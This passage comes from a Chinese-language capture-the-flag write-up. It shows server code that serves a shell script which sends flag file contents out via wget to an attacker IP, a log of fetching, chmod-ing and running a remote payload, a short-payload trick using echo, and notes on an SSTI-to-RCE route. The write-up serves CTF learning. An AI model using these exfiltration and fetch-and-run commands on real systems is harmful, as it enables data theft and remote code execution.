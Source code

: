 ```typescript
    return new Response(`#!/bin/sh\nwget ${decimalIP}/$(cat /flag*)`)
  },
})

main()
```

```bash
sudo bun index.ts
Got message: /
# 目標跟收 Flag 的機器要攻擊腳本
Executed shell command: wget -O /z 2130706433. Response: 500
Executed shell command: chmod +x /z. Response: 500
Got message: /CGGC{breakpoint_is_a_biiiig_gadget_oj237rpwd3i2}
# 出了點問題，收 Flag 機器沒辦法連上 VPN，這是用 VPN 內的機器打，VPN 外的機器收 Flag
Executed shell command: /z. Response: 500
```

由於我們沒有下指令離開 pdb，pdb 發現沒指令了會崩潰，導致收到的 HTTP Reponse Code 是 500。

這組 Payload 的 Prefix 50 字元，Suffix 6 字元，理論上能縮短成：

```bash
# 對於每一個 Shell Script 要用到的字元
echo c\\>>z
# End
chmod +x z
./z
```

用這個方法可以達到 67 個字元。

First Blood 🩸

預期解是用 `request.query_string` 放 Payload 來繞過 Filter，並且與傳統 SSIT 一樣用 `''.__class__`　方式取得 Global Object 並 RCE。

## 後記

![scoreborad](scoreboard.webp)

我們（又）在比賽前期衝到第一名，後面大神們開打排名慢慢掉下來，一題都解不開了。
